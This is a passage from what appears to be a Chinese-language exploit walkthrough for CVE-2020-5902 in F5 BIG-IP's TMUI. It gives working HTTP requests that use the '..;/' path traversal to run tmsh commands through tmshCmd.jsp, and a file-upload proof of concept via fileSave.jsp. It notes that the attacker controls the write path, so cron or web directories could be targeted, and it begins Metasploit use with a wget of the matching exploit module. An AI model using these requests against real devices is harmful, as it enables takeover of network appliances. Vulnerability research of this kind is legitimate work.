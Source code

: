 ![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHdMu398xRib6u0WUjeXkUUFsYCRhN29XSANkaTaWd3eibI2Hia4GSEAeQw/640?wx_fmt=jpeg "")  
  
Step 4：清除创建的alias  
```
tmshCmd.jsp?command=delete+cli+alias+private+list
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH9Vhjibic7IY57CUBu7aA7Hhic0AVKnc9DaRpZHf9jSy4qTXg50XWJ0oIA/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F

```  
###### 文件上传  
  
POC:  
```
POST:/tmui/locallb/workspace/fileSave.jsp
fileName=/tmp/1.txt&content=CVE-2020-5902
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHz55E1vQHKjKdK2pJRiagrOuP1Gc1UaU6xy9DjsqCy9Y4D795cK5FufA/640?wx_fmt=png "")  
  
之后通过文件读取验证：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH9hjJso8PBDyw7DJRx4XiaDA12Fqcj8RS3603d9jh7Cmhahsq8yleFkQ/640?wx_fmt=png "")  
  
可以看到成功上传文件/tmp/1.txt~  
  
PS：这里的文件写入路径可控，所以可以写入到计划任务或者www下的可写路径下(路径下有部分无法写入)，这里不再展开赘述了~  
##### MSF利用  
  
首先，我们需要下载MSF官方提供的攻击载荷到本地，在这之前你需要了解自己的msf的modules的路径，笔者这里为：/opt/metasploit-framework/embedded/framework/modules/exploits/linux/http/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHxZZiczmz16kLicbC4iaBiaVXFVkEo2w45X1HjakYyBTkwPSCyibEicr7FjgA/640?wx_fmt=png "")  
  
之后下载攻击载荷到本地（需要科学上网，也可以直接下载文件复制到对应的目录）：  
```
wget -P /opt/metasploit-framework/embedded/framework/modules/exploits/linux/http/ https://raw.githubusercontent.com/rapid7/metasploit-framework/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```  
  